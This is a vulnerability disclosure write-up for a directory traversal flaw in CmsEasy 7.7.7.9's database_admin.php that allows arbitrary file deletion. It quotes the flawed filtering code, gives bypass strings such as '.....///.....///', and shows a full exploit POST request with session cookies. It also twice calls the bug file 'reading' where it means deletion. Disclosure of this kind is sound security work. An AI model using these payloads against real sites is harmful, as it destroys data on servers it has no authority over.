 # CmsEasy-V7.7.7.9 20240105-Directory Traversal



## Introduce

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` that allows arbitrary file deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary files.



## Analyze

In the `lib/admin/database_admin.php` file, due to insufficient filtering in the `backAll_action` function, directory traversal leads to arbitrary file deletion.

![image-20250123005104482](/assest/cmseasy/cmseasy-1.png)



```php
 function backAll_action(){
        $dir=ROOT.'/data/backup-website';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\.\./',$dir)) $db_dirs[]=service::lockString($dir);
        }
        //var_dump($db_dirs);
        $this->view->db_dirs=$db_dirs;
    }
```

The `front::post` method is equivalent to `$_POST`.

It can be observed that the dangerous function `unlink` is used.
Additionally, the parameter `select` is controllable (an array).

```php
foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
```

Through analysis and filtering, it can be concluded that developers want to avoid arbitrary file reading vulnerabilities caused by path traversal.

However, an attacker can use filter conditions to construct content to achieve arbitrary file reading.

```

Bypass Method 1:
.....///.....///
=>
../../


Bypass Method 2:  # Utilize Windows parsing characteristics (this method only works on Windows).
..\\..\\
```



## Exploit

```http
POST /index.php?case=database&act=backAll&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.0.104:5678
Content-Length: 38
Cache-Control: max-age=0
Origin: http://192.168.0.104:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-fetch-site: same-origin
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
cookie: loginfalse74c6352c5a281ec5947783b8a186e225=6; PHPSESSID=73sf2og6s5l9qp6507aeofvp19; allowdown=985f28e9d3af52c829b07a025282006b; login_username=admin; login_password=yxx2O2HvK1vseDc6d%253DMBgleqHCHKdC%253DocDZ%253DK%253DMuLxOuV2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=.....///.....///test.txt
```



Create `1.txt` file to test.

![image-20250123010305574](assest/cmseasy/cmseasy-2.png)



Send the exploit (constructing two levels up in the directory because the trigger point is located in `lib/admin/database_admin.php`).  The response "Template does not exist" is displayed normally, but the deletion was actually successful.

![image-20250123010228909](assest/cmseasy/cmseasy-3.png)



The file can be seen to have been deleted.

![image-20250123010334583](assest/cmseasy/cmseasy-4.png)

